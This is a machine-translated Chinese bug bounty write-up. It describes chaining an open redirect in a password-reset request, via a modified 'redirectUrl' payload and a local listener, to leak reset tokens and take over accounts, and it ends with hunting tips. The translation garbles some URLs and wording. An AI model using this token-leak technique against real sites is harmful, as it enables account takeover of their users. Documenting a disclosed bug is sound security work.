




# 我是如何把 P4 和 P2 联系起来的

> 原文：<https://infosecwriteups.com/how-i-chained-p4-to-p2-open-redirection-to-full-account-takeover-a28b09a94bf7?source=collection_archive---------0----------------------->

大家好，

我希望你一切都好。很久以后，我带着一篇关于我如何将开放重定向链接到完整 ATO 的新文章回来了。我简单讲个故事吧。:P

我报告了“通过引用者响应的令牌泄漏”。过了一段时间，这个问题解决了，所以我决定再次调查这个问题来验证。然后我注意到一个带有“redirectUrl”的端点，在修复这个问题时，他们做了一些更改，并在 HTTP 请求上添加了一个新参数，然后我将 redirect URL 更改为 google.com。但是当我检查那里的邮件时，它没有被注射 google.com。但打开链接后，它成功地重定向到 google.com。

首先，我想尽快报告，但我想是否有可能连锁？如果可能的话，这是值得报道的。然后我注意到 RedirectUrl=是用 reset 标记反映的。然后我决定举报。

这类似于主机头注入，0auth 缺陷，但在不同的场景。我认为这将有助于人们找到类似的问题，所以我写了这篇文章与你分享。如果我将其报告为开放重定向，它将被接受为 p4，即 Bugcrowd 上的低优先级风险 bug。

关于**打开重定向**:

当用户访问位于受信任网站上的链接时，攻击者能够将用户重定向到不受信任的站点，就会出现无效重定向漏洞。这种漏洞通常也称为开放重定向。

Portswigger 实验室:[https://ports wigger . net/academy/labs/launch/67ab 900d 88 BCD 094478d 14d 157338 de 5 BF 87302 c 124 c 802219 a 8 ef 29 a 4 a 65 e0f？referer = % 2f web-security % 2f 基于 dom 的% 2f open-redirection % 2f flab-DOM-open-redirection](https://portswigger.net/academy/labs/launch/67ab900d88bcd094478d14d157338de5bf87302c124c802219a8ef29a4a65e0f?referrer=%2fweb-security%2fdom-based%2fopen-redirection%2flab-dom-open-redirection)

重现此问题的步骤:

1.  首先我通过 https://redacted.vulnsite.com/login 的[登录，然后点击忘记密码。](https://redacted.vulnsite.com/login)

易受攻击网站的 UI。

2.然后我打开 burp 套件拦截请求，点击“忘记密码”，输入受害者邮件。将请求发送到中继器，并将请求更改为:

HTTP 请求之前:

并打开一个终端，运行这个命令“python3 -m HTTP。服务器 80”来接收请求。

*然后我把请求改成了{ " redirectUrl ":" http://127 . 0 . 01/？reset-result = { 0 }&reset-callback-uri = { 1 } " }*

在 HTTP 请求中将 redirectUrl 更改为 127.0.01。

3.当我作为受害者打开重置链接时。它重定向到[http://127 . 0 . 01/Secret _ reset](http://127.0.01/reset)_ token

4.当我检查重置链接得到的响应时。

现在，我只需将网址([https://redacted.vulnsite.com](https://redacted.vulnsite.com/login)/[Secret _ reset](http://127.0.01/reset)_ token)替换为重置链接，就可以重置密码了。现在，我们可以设置一个新的密码，这将导致完全接管帐户。

Bugcrowd ASE 的回应！

因为它类似于主机报头注入。Bugcrowd 应用程序安全工程师更改了 VRT 作为主机标头注入，并提供了很好的注释！❤ :)

**我也在学习，但以下是我的一些心得:**

1.  首次搜寻漏洞披露计划(基于点数、名人堂、基于奖品的竞争较少)。
2.  我建议你学习一些漏洞披露程序的方法，并将其应用于付费程序。如果我们直接转到公共付费项目，出现错误或重复的几率会很低，这会导致挫败感。
3.  花些时间了解这个平台。例如，Bugcrowd 接受限速问题，但 Hackerone 不接受。(也取决于程序)
4.  仔细阅读计划政策和范围。
5.  制作一个清单并应用它。即通过将 POST 更改为 GET 的 CSRF、密码重置页面中的 SQL、通过更改标头的主机标头注入等。
6.  在报告之前，了解问题的利用和影响。
7.  固定后寻找旁路。

我们将感谢您的反馈，以便改进和撰写更多内容。

感谢您抽出时间阅读！快乐的黑客/狩猎！

通过以下方式与我联系:

**推特**:[https://twitter.com/bishal0x01](https://twitter.com/bishal0x01)

**insta gram**:[https://www.instagram.com/bishal0x01/](https://www.instagram.com/bishal0x01/)

**YouTube**:[https://www.youtube.com/therbishal](https://www.youtube.com/therbishal)

参考资料:[https://blog . detect ify . com/2016/08/15/owasp-top-10-un validated-redirects-and-forwards-10/](https://blog.detectify.com/2016/08/15/owasp-top-10-unvalidated-redirects-and-forwards-10/)

[https://portswigger.net/web-security/host-header](https://portswigger.net/web-security/host-header)